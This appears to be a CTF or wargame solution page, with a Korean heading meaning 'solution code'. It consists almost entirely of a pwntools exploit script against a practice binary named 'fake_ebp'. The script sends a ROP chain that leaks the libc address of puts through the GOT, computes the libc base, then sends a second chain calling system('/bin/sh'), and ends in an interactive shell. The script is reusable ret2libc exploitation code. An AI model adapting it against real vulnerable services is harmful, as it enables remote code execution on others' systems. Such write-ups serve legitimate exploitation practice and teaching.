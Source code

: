 풀이 코드

```python
from pwn import *

#context.log_level='debug'
#context.log_level='critical'
e= ELF("./fake_ebp")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

puts = e.plt['puts']
puts_got = e.got['puts']
ret = 0x0000000000401278
pop_rdi = 0x00000000004012e3
_start = e.sym['_start']

while True:
    try:
        p= process("./fake_ebp")
        p.recvuntil("input : ")

        ## leak stage ##

        #payload = flat([ret, ret, ret, pop_rdi, puts_got, puts, _start])
        payload = p64(ret)*3 + p64(pop_rdi) + p64(puts_got) + p64(puts) + p64(_start)
        payload = payload.ljust((0x40-1),b"A")
        p.sendline(payload)

        leak=p.recvuntil(b"\x7f",timeout=1).ljust(8,b'\x00')

        if b"\x7f" not in leak:
            p.close()
            continue
        log.critical(f"leak is {leak}")

        ## /bin/sh stage ##

        base = u64(leak) - libc.sym['puts']
        system=base+libc.sym['system']
        binsh=base+next(libc.search(b"/bin/sh\x00"))

        #payload2 = flat([ret, ret, ret, ret, pop_rdi, binsh, system])
        payload2 = p64(ret)*4 + p64(pop_rdi) + p64(binsh) + p64(system)
        payload2 = payload2.ljust((0x40-1),b"A")

        p.sendlineafter("input : ",payload2)

        p.sendline("id")
        p.sendline("id")
        p.sendline("id")
        p.sendline("id")
        log.critical("EXPLOIT DONE")
        p.interactive()
    except EOFError:
        p.close()
        continue
```
